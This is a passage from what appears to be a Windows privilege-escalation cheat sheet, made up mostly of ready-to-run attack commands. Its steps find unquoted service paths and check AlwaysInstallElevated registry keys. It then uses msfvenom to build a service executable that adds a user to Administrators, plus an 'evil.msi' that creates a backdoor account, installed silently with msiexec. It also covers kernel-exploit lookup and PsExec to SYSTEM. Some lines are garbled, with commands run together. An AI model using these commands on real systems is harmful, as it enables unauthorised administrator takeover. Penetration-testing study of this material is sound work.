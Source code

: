 ##### WSL filesystem 
- C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\

### 6.	EOP : Unquoted Service Paths

- wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
- wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
- wsl whoamiwmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """ 
###### Example-
- Suppose we found: C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
- check for permissions of folder path
icacls "C:\Program Files (x86)\Program Folder" 
###### Exploit -
- msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
- Place common.exe in ‘C:\Program Files\Unquoted Path Service’.
- Open command prompt and type: 
•	sc start unquotedsrvc
•	net localgroup Administrators


### 7.	EoP : Kernel Exploitation
##### List of kernel exploits : https://github.com/SecWiki/windows-kernel-exploits
- Look for hotfixes - systeminfo
- wmic qfe get Caption,Description,HotFixID,InstalledOn
- Search for exploits - site:exploit-db.com 

### 8.	EOP : AlwaysInstallElevated

##### This allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.

1.	Check if these 2 registry values are set to "1":
- $reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
- $reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
2.	If they are, create your own malicious msi:
- $ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
3.	Then use msiexec on victim to execute your msi:
- $ msiexec /quiet /qn /i C:\evil.msi

### 9.	EOP : Vulnerable Drivers

- ##### Command -  driverquery

### 10.	EOP : From local administrator to NT SYSTEM
- ##### Psexec.exe -i -s cmd.exe
